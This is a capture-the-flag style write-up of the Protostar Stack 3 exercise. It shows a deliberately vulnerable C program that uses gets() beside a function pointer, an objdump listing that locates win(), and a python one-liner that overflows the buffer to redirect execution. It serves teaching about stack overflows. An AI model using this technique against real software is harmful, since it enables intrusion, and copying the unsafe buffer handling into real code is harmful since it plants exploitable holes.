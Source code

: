 # Protostar - Stack 3

### About ###

>Stack3 looks at environment variables, and how they can be set, and overwriting function pointers stored on the stack (as a prelude to overwriting the saved EIP)
>
>**Hints**
>
> - both gdb and objdump is your friend you determining where the win() function lies in memory.
>
>This level is at `/opt/protostar/bin/stack3`

### Source code

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  volatile int (*fp)();
  char buffer[64];

  fp = 0;

  gets(buffer);

  if(fp) {
      printf("calling function pointer, jumping to 0x%08x\n", fp);
      fp();
  }
}
```

### Solution 

In this challenge, we still have to change the value of a variable, although this time, it's not a simple integer, it's a function pointer.
The first step is to find the address of the function `win` (I chose `objdump` to do it).

```
08048424 <win>:
 8048424:      	55                     	push   %ebp
 8048425:      	89 e5                  	mov    %esp,%ebp
 8048427:      	83 ec 18               	sub    $0x18,%esp
 804842a:      	c7 04 24 40 85 04 08   	movl   $0x8048540,(%esp)
 8048431:      	e8 2a ff ff ff         	call   8048360 <puts@plt>
 8048436:      	c9                     	leave
 8048437:      	c3                     	ret
```

`0x08048424` is the address of the function `win`.
The remaining steps are the same as the previous exercises: we just need to change the value of `fp` to `0x08048424`.

```
user@protostar:/tmp$ python -c "print 'A'*64+'\x24\x84\x04\x08'" | stack3
calling function pointer, jumping to 0x08048424
code flow successfully changed
```